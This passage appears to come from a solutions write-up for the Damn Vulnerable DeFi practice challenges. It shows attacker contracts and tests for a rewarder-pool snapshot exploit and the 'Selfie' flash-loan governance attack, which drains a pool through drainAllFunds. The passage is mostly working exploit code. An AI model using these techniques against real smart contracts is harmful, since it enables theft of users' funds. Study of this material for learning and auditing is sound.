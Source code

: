 ```javascript
        
        //deposit, which calls distributeRewards, and we have the entire balance at the snapshot, so everyone else has zero
        dvt.approve(address(rewarderPool), amount);
        trp.deposit(amount);
        trp.withdraw(amount);
        dvt.transfer(flashLoanPool, amount);
    }
```
```javascript
    it('Exploit', async function () {
        this.attackercontract = await AttackerContract.new(this.flashLoanPool.address, this.rewarderPool.address, this.liquidityToken.address, attacker, { from: deployer });        
        
        //run the exploit a few days later to ensure that a snapshot is taken
        await time.increase(time.duration.days(6));
        await this.attackercontract.attack();
    });
```

## [6. Selfie](https://www.damnvulnerabledefi.xyz/challenges/6.html)

Here, we need to exploit the way votes are counted so that we can execute the `drainAllFunds()` function as the governance contract. When flash loaning all of the tokens in the pool, we can take a snapshot of our balance to pass the requirement of the `_hasEnoughVotes()` function. After 3 days, we can execute the action and call `drainAllFunds()` as the governance contract:

```javascript
    function attack() external {
        SelfiePool sp = SelfiePool(selfiePool);
        DamnValuableTokenSnapshot dvt = DamnValuableTokenSnapshot(damnVulnerableToken);
        SimpleGovernance sg = SimpleGovernance(simpleGovernance);
        //flash loan the entire pool balance
        uint balance = dvt.balanceOf(selfiePool);
        sp.flashLoan(balance);
    }

    function receiveTokens(address token, uint256 amount) external {
        DamnValuableTokenSnapshot dvt = DamnValuableTokenSnapshot(damnVulnerableToken);
        require(dvt.balanceOf(address(this)) == amount, "...your tokens didn't make the journey :(");
        //take a snapshot so that `_hasEnoughVotes` uses the latest snapshot when we have the balance
        dvt.snapshot();
        dvt.transfer(selfiePool, amount);
        //the action should be to execute the drainAllFunds function on the SelfiePool instance
        SimpleGovernance sg = SimpleGovernance(simpleGovernance);
        actionId = sg.queueAction(selfiePool, abi.encodeWithSignature("drainAllFunds(address)", address(this)), 0);
    }

    function callAction(address receiver) external {
        //Vote passed, call the queued action
        SimpleGovernance sg = SimpleGovernance(simpleGovernance);
        sg.executeAction(actionId);
        //transfer stolen tokens back
        DamnValuableTokenSnapshot dvt = DamnValuableTokenSnapshot(damnVulnerableToken);
        uint balance = dvt.balanceOf(address(this));
        dvt.transfer(receiver, balance);
    }
```
```javascript
    it('Exploit', async function () {
```